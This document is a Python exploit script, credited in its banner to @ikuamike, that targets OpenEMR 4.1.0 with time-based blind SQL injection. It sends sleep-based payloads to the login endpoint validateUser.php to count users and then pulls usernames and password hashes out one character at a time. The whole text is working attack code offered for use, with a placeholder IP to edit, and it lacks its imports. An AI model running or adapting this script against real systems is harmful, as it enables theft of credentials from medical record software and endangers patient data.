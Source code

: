 ```py

print("""
   ____                   ________  _______     __ __   ___ ____
  / __ \____  ___  ____  / ____/  |/  / __ \   / // /  <  // __ \\
 / / / / __ \/ _ \/ __ \/ __/ / /|_/ / /_/ /  / // /_  / // / / /
/ /_/ / /_/ /  __/ / / / /___/ /  / / _, _/  /__  __/ / // /_/ /
\____/ .___/\___/_/ /_/_____/_/  /_/_/ |_|     /_/ (_)_(_)____/
    /_/
    ____  ___           __   _____ ____    __    _
   / __ )/ (_)___  ____/ /  / ___// __ \  / /   (_)
  / /_/ / / / __ \/ __  /   \__ \/ / / / / /   / /
 / /_/ / / / / / / /_/ /   ___/ / /_/ / / /___/ /
/_____/_/_/_/ /_/\__,_/   /____/\___\_\/_____/_/   exploit by @ikuamike
""")

all = string.printable
# edit url to point to your openemr instance
url = "http://192.168.56.106/openemr/interface/login/validateUser.php?u="

def extract_users_num():
    print("[+] Finding number of users...")
    for n in range(1,100):
        payload = '\'%2b(SELECT+if((select count(username) from users)=' + str(n) + ',sleep(3),1))%2b\''
        r = requests.get(url+payload)
        if r.elapsed.total_seconds() > 3:
            user_length = n
            break
    print("[+] Found number of users: " + str(user_length))
    return user_length

def extract_users():
    users = extract_users_num()
    print("[+] Extracting username and password hash...")
    output = []
    for n in range(1,1000):
        payload = '\'%2b(SELECT+if(length((select+group_concat(username,\':\',password)+from+users+limit+0,1))=' + str(n) + ',sleep(3),1))%2b\''
        #print(payload)
        r = requests.get(url+payload)
        #print(r.request.url)
        if r.elapsed.total_seconds() > 3:
            length = n
            break
    for i in range(1,length+1):
        for char in all:
            payload = '\'%2b(SELECT+if(ascii(substr((select+group_concat(username,\':\',password)+from+users+limit+0,1),'+ str(i)+',1))='+str(ord(char))+',sleep(3),1))%2b\''
            #print(payload)
            r = requests.get(url+payload)
            #print(r.request.url)
            if r.elapsed.total_seconds() > 3:
                output.append(char)
                if char == ",":
                    print("")
                    continue
                print(char, end='', flush=True)


try:
    extract_users()
except KeyboardInterrupt:
    print("")
```